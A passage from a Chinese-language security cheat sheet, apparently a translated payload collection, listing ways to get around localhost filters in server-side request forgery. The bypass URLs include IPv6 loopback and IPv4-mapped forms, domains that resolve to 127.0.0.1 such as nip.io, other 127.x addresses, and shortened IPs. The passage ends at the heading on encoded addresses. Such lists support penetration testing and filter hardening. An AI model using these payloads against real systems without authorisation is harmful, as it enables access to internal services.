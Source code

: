 * 使用IPv6回环地址`[0000::1]`

    ```powershell
    http://[0000::1]:80/
    ```

* 使用[IPv6/IPv4地址嵌入](http://www.tcpipguide.com/free/t_IPv6IPv4AddressEmbedding.htm)

    ```powershell
    http://[0:0:0:0:0:ffff:127.0.0.1]
    http://[::ffff:127.0.0.1]
    ```

### 使用域名重定向绕过本地主机限制

| 域名                       | 重定向到    |
|---------------------------|------------|
| localtest.me             | `::1`      |
| localh.st                | `127.0.0.1`|
| spoofed.[BURP_COLLABORATOR] | `127.0.0.1`|
| spoofed.redacted.oastify.com | `127.0.0.1`|
| company.127.0.0.1.nip.io | `127.0.0.1`|

`nip.io`服务非常有用，它可以将任何IP地址转换为DNS。

```powershell
NIP.IO将<anything>.<IP Address>.nip.io映射到相应的<IP Address>，甚至127.0.0.1.nip.io也会映射到127.0.0.1
```

### 使用CIDR绕过本地主机限制

在IPv4中，`127.0.0.0/8`范围保留给回环地址。

```powershell
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

如果您在网络中使用此范围内的任何地址（127.0.0.2、127.1.1.1等），它仍将解析到本地机器。

### 使用地址绕过

您可以通过删除零来缩短IP地址

```powershell
http://0/
http://127.1
http://127.0.1
```

### 使用编码的IP地址绕过
